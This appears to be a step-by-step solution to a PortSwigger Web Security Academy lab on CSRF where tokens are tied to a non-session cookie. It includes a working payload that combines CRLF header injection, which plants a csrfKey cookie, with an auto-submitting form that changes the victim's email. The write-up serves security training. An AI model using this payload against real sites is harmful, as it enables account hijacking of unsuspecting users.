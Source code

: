 [Source](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)
## Task
The email address change functionality in this lab is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they are not fully integrated into the site's session management system.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the email address of the user viewing the page.
You have two accounts in the application that you can use to develop your attack. The credentials are as follows:
`wiener:peter`
`carlos:montoya`
## Solution
Go to the task site

![image](images/20241224193305.png)

Log in as user `wiener`

![image](images/20241224193420.png)

Change the email and intercept the request via `Burp Suite`.

![image](images/20241224193509.png)

We see that we have the following tokens:
```Tokens
csrfKey=lPPp4nuSoEpv6zOnVt4UWetL0bn6umi5
session=fQ0OjfYKBadYSwz5aJiMUcc8wUFbjS6S
csrf=7zUESTM9xE3zIq7cCj09Q5hh3jM4sjyJ
```
Note that changing the `session` cookie logs you out, while changing the `csrfKey` cookie only results in the CSRF token being rejected (`"Invalid CSRF token"` error). This suggests that the `csrfKey` cookie may not be strictly session-specific.
Let's open an incognito window and log in as the second user `carlos`.

![image](images/20241224193958.png)

Change the email, intercept the request via `Burp Suite` and send it to `Repeater`

![image](images/20241224194057.png)

Note that if we take `csrfKey` and `csrf` from the previous account and paste them into the request of another account, the request will be successful

![image](images/20241224194208.png)

Close the incognito window and go to the original browser. Change the email again and intercept the request. After that, right-click and then `Engagement tools > Generate CSRF PoC`. Remove the lines with `<script>` and instead enter
```Request
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```
, replacing `YOUR-LAB-ID.web-security-academy.net` with `Host` and `YOUR-KEY` with `csrfKey`

![image](images/20241224195657.png)

Copy the HTML code and go to `Exploit Server`. In it, in the `Body` field, paste this HTML code:
```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a92001d04fb4aa9832f3286008d009c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="DeX1d&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="7zUESTM9xE3zIq7cCj09Q5hh3jM4sjyJ" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a92001d04fb4aa9832f3286008d009c.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=lPPp4nuSoEpv6zOnVt4UWetL0bn6umi5%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

![image](images/20241224200117.png)

Next, click `Store` and `Deliver exploit to victim`

![image](images/20241224200134.png)
